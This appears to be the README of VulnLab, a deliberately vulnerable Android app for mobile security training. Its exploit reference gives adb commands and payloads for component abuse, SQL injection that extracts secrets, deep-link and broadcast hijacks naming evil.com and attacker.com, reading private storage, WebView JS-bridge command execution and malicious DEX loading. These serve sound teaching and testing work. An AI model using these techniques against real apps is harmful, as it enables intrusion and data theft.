









# VulnLab APK — Intentionally Vulnerable Android App

> **For authorized security research, CTF practice, and mobile security education only.**  
> Do not install on devices you do not own. All vulnerabilities are intentional.



---

## What is VulnLab?

VulnLab is a purpose-built vulnerable Android application covering all major vulnerability classes from the [OWASP Mobile Top 10](https://owasp.org/www-project-mobile-top-10/) and the Android-specific attack surface. It is designed to give security researchers, bug bounty hunters, and students a hands-on target to practice static analysis, dynamic instrumentation, and exploit development — without needing a real target.

Every vulnerability is documented in the source code with the attack vector, test commands, and expected output.

---

## Project Maturity Evidence

| Area | Evidence |
|---|---|
| Build and install | [Quick Start](#quick-start), [`build.sh`](build.sh), [`requirements-dev.txt`](requirements-dev.txt) |
| Lab coverage | [Vulnerability Coverage](#vulnerability-coverage), [`docs/VULNERABILITIES.md`](docs/VULNERABILITIES.md) |
| Safety | [Responsible Use](#responsible-use), [safety model](docs/safety-model.md), [security policy](SECURITY.md) |
| Validation | [validation plan](docs/validation-plan.md), lightweight tests in [`tests/`](tests/) |
| Maintenance | [maintainers](MAINTAINERS.md), [roadmap](ROADMAP.md), [changelog](CHANGELOG.md), [contributing](CONTRIBUTING.md) |
| Resubmission status | [curated-list resubmission plan](docs/curated-list-resubmission-plan.md) |

Curated-list resubmission should wait for tagged releases, APK hashes, visible
check history, and external usage feedback. The repository now documents the
quality bar, but adoption evidence still requires time.

---

## Vulnerability Coverage

| # | Class | Component | CVSS |
|---|---|---|---|
| 11.1 | Component Exposure & Insecure IPC | `AdminActivity` | 9.1 |
| 11.2 | Intent Redirection | `IntentRedirectReceiver` | 8.3 |
| 11.2 | PendingIntent Misuse | `PendingIntentActivity` | 7.5 |
| 11.3 | ContentProvider SQL Injection | `VulnContentProvider` | 9.8 |
| 11.3 | ContentProvider Path Traversal | `FileVulnProvider` | 8.6 |
| 11.4 | Deep Link Parameter Injection | `DeepLinkActivity` | 8.1 |
| 11.4 | OAuth Token Hijacking | `DeepLinkActivity` | 8.1 |
| 11.5 | Broadcast Receiver Hijack | `ConfigReceiver` | 7.4 |
| 11.6 | Insecure Data Storage | `StorageActivity` | 7.5 |
| 11.7 | Cryptography Failures | `CryptoActivity` | 7.5 |
| 11.8 | Insecure WebView + JS Bridge | `WebViewActivity` | 9.3 |
| 11.9 | Dynamic Code Loading | `DynamicCodeActivity` | 8.8 |

**Manifest-level flags:** `debuggable=true` · `allowBackup=true` · `usesCleartextTraffic=true` · no cert pinning

---

## Quick Start

### Prerequisites
- Android SDK with `build-tools;34.0.0` and `platforms;android-34`
- Java 8+
- `adb` in PATH

### Build from source

```bash
git clone https://github.com/anpa1200/Vulnerable-APK.git
cd Vulnerable-APK
bash build.sh
adb install VulnLab.apk
```

### Use pre-built APK

Download `VulnLab.apk` from [Releases](../../releases) and install directly:

```bash
adb install VulnLab.apk
```

Package name: `com.vulnlab.insecureapp`

---

## Lab Setup

Recommended lab: Android 13 (API 33) emulator, `Google APIs x86_64` image.

```bash
# Create AVD
sdkmanager "system-images;android-33;google_apis;x86_64"
avdmanager create avd -n vulnlab -k "system-images;android-33;google_apis;x86_64"

# Launch headless
emulator -avd vulnlab -no-window -no-audio -gpu swiftshader_indirect &

# Wait for boot
adb wait-for-device && until adb shell getprop sys.boot_completed | grep -q 1; do sleep 2; done

# Install
adb install VulnLab.apk
```

---

## Exploit Reference

### 11.1 — Unauthorized Admin Access

```bash
adb shell am start -n com.vulnlab.insecureapp/.AdminActivity \
    --ez isAdmin true --es action deleteAll
```



---

### 11.3 — ContentProvider SQL Injection

```bash
# Dump all users (no auth)
adb shell content query \
    --uri content://com.vulnlab.insecureapp.provider/users

# UNION-based injection — exfiltrate secrets table
adb shell content query \
    --uri content://com.vulnlab.insecureapp.provider/users \
    --where "1=1 UNION SELECT key,value,null,null,null FROM secrets--"
```



---

### 11.4 — Deep Link Token Leak

```bash
adb shell am start -a android.intent.action.VIEW \
    -d "vulnlab://app/reset?token=SECRET_TOKEN&redirect=http://evil.com"
```



---

### 11.5 — Config Broadcast Hijack

```bash
# Redirect all API traffic to attacker-controlled server
adb shell am broadcast \
    -n com.vulnlab.insecureapp/.ConfigReceiver \
    --es server_url "http://attacker.com" \
    --ez force_update true
```



---

### 11.6 — Insecure Storage (no root required)

```bash
# Read private SharedPreferences via debuggable flag
adb shell run-as com.vulnlab.insecureapp \
    cat /data/data/com.vulnlab.insecureapp/shared_prefs/vulnlab_prefs.xml

# Dump full SQLite database
adb shell run-as com.vulnlab.insecureapp \
    sqlite3 /data/data/com.vulnlab.insecureapp/databases/vulnlab.db .dump

# Read world-accessible external storage JSON
adb shell cat /sdcard/Android/data/com.vulnlab.insecureapp/files/session.json
```



---

### 11.7 — Cryptography Failures

```bash
adb shell am start -n com.vulnlab.insecureapp/.CryptoActivity
adb logcat | grep VulnLab:Crypto
# Shows: hardcoded AES key, ECB ciphertext, static IV, MD5 hash, weak RNG token
```



---

### 11.8 — WebView JS Bridge RCE

Write and load a malicious HTML page that calls all three JS bridge methods:

```bash
cat > /tmp/poc.html << 'EOF'
<script>
  var cmd   = Android.execCommand("id");
  var prefs = Android.readFile("/data/data/com.vulnlab.insecureapp/shared_prefs/vulnlab_prefs.xml");
  var token = Android.getAuthToken();
  document.body.innerHTML = "<pre>CMD: "+cmd+"\nPREFS:\n"+prefs+"\nTOKEN: "+token+"</pre>";
</script>
EOF

adb push /tmp/poc.html /data/local/tmp/poc.html
adb shell run-as com.vulnlab.insecureapp \
    cp /data/local/tmp/poc.html /data/data/com.vulnlab.insecureapp/files/poc.html
adb shell am start -n com.vulnlab.insecureapp/.WebViewActivity \
    --es url "file:///data/data/com.vulnlab.insecureapp/files/poc.html"
```



---

### 11.9 — Dynamic Code Injection

```bash
# Build a malicious DEX implementing com.vulnlab.plugin.UpdatePlugin
# then drop it at the watched path
adb shell mkdir -p /sdcard/vulnlab_plugins
adb push malicious.dex /sdcard/vulnlab_plugins/update.dex
adb shell am start -n com.vulnlab.insecureapp/.DynamicCodeActivity
```



---

## Static Analysis

```bash
# Decompile with jadx
jadx -d jadx_out VulnLab.apk

# Run APK Hunter (AI-powered 5-phase pipeline)
python3 /path/to/apk-hunter/cli.py analyze VulnLab.apk

# MobSF
docker run -it --rm -p 8000:8000 opensecurity/mobile-security-framework-mobsf
# Upload VulnLab.apk at http://localhost:8000
```

---

## Project Structure

```
vulnlab-apk/
├── AndroidManifest.xml          # All dangerous flags enabled
├── build.sh                     # Build without Gradle (SDK tools only)
├── VulnLab.apk                  # Pre-built signed APK
├── src/com/vulnlab/insecureapp/
│   ├── MainActivity.java        # Navigation hub
│   ├── AdminActivity.java       # 11.1 Component Exposure
│   ├── IntentRedirectReceiver.java  # 11.2 Intent Redirect
│   ├── PendingIntentActivity.java   # 11.2 PendingIntent Misuse
│   ├── VulnContentProvider.java     # 11.3 SQL Injection
│   ├── FileVulnProvider.java        # 11.3 Path Traversal
│   ├── DeepLinkActivity.java        # 11.4 Deep Link Attacks
│   ├── ConfigReceiver.java          # 11.5 Broadcast Hijack
│   ├── StorageActivity.java         # 11.6 Insecure Storage
│   ├── CryptoActivity.java          # 11.7 Crypto Failures
│   ├── WebViewActivity.java         # 11.8 Insecure WebView
│   └── DynamicCodeActivity.java     # 11.9 Dynamic Code Loading
├── res/
│   ├── values/strings.xml       # Hardcoded secrets in resources
│   └── xml/network_security_config.xml  # Permissive NSC
├── screenshots/                 # Real AVM exploit screenshots
└── docs/
    ├── VULNERABILITIES.md       # Full vulnerability details
    └── article.md               # Medium.com article
```

---

## Comparison with Other Lab Apps

| App | DIVA | InsecureBankv2 | MSTG | **VulnLab** |
|---|---|---|---|---|
| Gradle-free build | ✗ | ✗ | ✗ | **✓** |
| All OWASP M-Top10 | partial | partial | ✓ | **✓** |
| JS Bridge RCE demo | ✗ | ✗ | partial | **✓** |
| Real exploit commands | ✗ | ✓ | partial | **✓** |
| Source code comments | minimal | partial | ✓ | **✓** |
| Android 13 compatible | ✗ | ✗ | ✓ | **✓** |

---

## Responsible Use

This application is provided strictly for:
- Authorized penetration testing education
- Bug bounty hunter training
- CTF challenges
- Defensive security research and tool validation

**Never install on a device used in production or with real accounts.**

---

## License

MIT — see [LICENSE](LICENSE)

## 1200km Ecosystem

This project is part of the 1200km security research ecosystem. Use [AdversaryGraph](https://1200km.com/adversarygraph/) for CTI-to-detection workflows, ATT&CK/ATLAS mapping, actor relevance, IOC enrichment, and analyst-ready reporting.

- [AdversaryGraph project hub](https://1200km.com/adversarygraph/)
- [AdversaryGraph documentation](https://1200km.com/adversarygraph-docs/)
- [Live ATT&CK/ATLAS workspace](https://1200km.com/threat-matrix/)
- [1200km security research ecosystem](https://1200km.com/)

